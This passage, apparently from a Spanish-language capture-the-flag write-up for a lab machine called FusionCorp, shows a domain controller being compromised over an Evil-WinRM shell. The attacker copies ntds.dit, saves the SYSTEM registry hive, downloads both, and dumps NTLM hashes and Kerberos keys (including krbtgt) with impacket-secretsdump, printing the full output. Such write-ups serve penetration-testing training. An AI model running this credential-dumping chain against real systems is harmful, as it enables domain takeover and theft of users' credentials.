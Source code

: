           -Copiamos dicho fichero de x:\windows\ntds\ntds.dit --> C:\temp
           
                  *Evil-WinRM* PS x:\windows\ntds> robocopy /B .\ c:\temp ntds.dit
                  
                  -------------------------------------------------------------------------------
                     ROBOCOPY     ::     Robust File Copy for Windows
                  -------------------------------------------------------------------------------
                    Started : Sunday, October 15, 2023 12:38:08 AM
                     Source : x:\windows\ntds\
                       Dest : c:\temp\
                      Files : ntds.dit
                    Options : /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

          -Extraemos del registro de windows una copia de SYSTEM, lo vamos a necesitar.

                  *Evil-WinRM* PS C:\temp> reg save HKLM\SYSTEM SYSTEM
                  The operation completed successfully.

        4)Obtenemos hashes de usuarios

          -Descargamos ntds.dit y SYSTEM a nuestra maquina.

            *Evil-WinRM* PS C:\temp> download ntds.dit ./content/ntds.dit
                                                    
            Info: Downloading C:\temp\ntds.dit to ./content/ntds.dit                          
            Info: Download successful!


            *Evil-WinRM* PS C:\temp> download SYSTEM ./content/SYSTEM
                                                    
            Info: Downloading C:\temp\SYSTEM to ./content/SYSTEM
            Info: Download successful!
        
          -Obtenemos hashes de ntds.dit
        
            ┌──(root㉿kali)-[/home/…/ctf/try_ctf/FusionCorp/content]
            └─# impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
            Impacket v0.11.0 - Copyright 2023 Fortra
            
            [*] Target system bootKey: 0xeafd8ccae4277851fc8684b967747318
            [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
            [*] Searching for pekList, be patient
            [*] PEK # 0 found and decrypted: 76cf6bbf02e743fac12666e5a41342a7
            [*] Reading and decrypting hashes from ntds.dit 
            Administrator:500:aad3b435b51404eeaad3b435b51404ee:9653b02d945329c7270525c4c2a69c67:::
            Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
            FUSION-DC$:1000:aad3b435b51404eeaad3b435b51404ee:84c7f6b901db6d20745ae3a344c8213b:::
            krbtgt:502:aad3b435b51404eeaad3b435b51404ee:feabe44b40ad2341cdef1fd95297ef38:::
            fusion.corp\lparker:1103:aad3b435b51404eeaad3b435b51404ee:5a2ed7b4bb2cd206cc884319b97b6ce8:::
            fusion.corp\jmurphy:1104:aad3b435b51404eeaad3b435b51404ee:69c62e471cf61441bb80c5af410a17a3:::
            [*] Kerberos keys from ntds.dit 
            Administrator:aes256-cts-hmac-sha1-96:4db79e601e451bea7bb01d0a8a1b5d2950992b3d2e3e750ab1f3c93f2110a2e1
            Administrator:aes128-cts-hmac-sha1-96:c0006e6cbd625c775cb9971c711d6ea8
            Administrator:des-cbc-md5:d64f8c131997a42a
            FUSION-DC$:aes256-cts-hmac-sha1-96:75de4118e0ed29158863f64269191cde978551ca1f80c6f26ccdc04995c3b0ef
            FUSION-DC$:aes128-cts-hmac-sha1-96:5502eacc44d0e752dc40b0e3d9ac4a7c
            FUSION-DC$:des-cbc-md5:164f73802ce5677f
            krbtgt:aes256-cts-hmac-sha1-96:82e655601984d4d9d3fee50c9809c3a953a584a5949c6e82e5626340df2371ad
            krbtgt:aes128-cts-hmac-sha1-96:63bf9a2734e81f83ed6ccb1a8982882c
            krbtgt:des-cbc-md5:167a91b383cb104a
            fusion.corp\lparker:aes256-cts-hmac-sha1-96:4c3daa8ed0c9f262289be9af7e35aeefe0f1e63458685c0130ef551b9a45e19a
            fusion.corp\lparker:aes128-cts-hmac-sha1-96:4e918d7516a7fb9d17824f21a662a9dd
            fusion.corp\lparker:des-cbc-md5:7c154cb3bf46d904
            fusion.corp\jmurphy:aes256-cts-hmac-sha1-96:7f08daa9702156b2ad2438c272f73457f1dadfcb3837ab6a92d90b409d6f3150
            fusion.corp\jmurphy:aes128-cts-hmac-sha1-96:c757288dab94bf7d0d26e88b7a16b3f0
            fusion.corp\jmurphy:des-cbc-md5:5e64c22554988937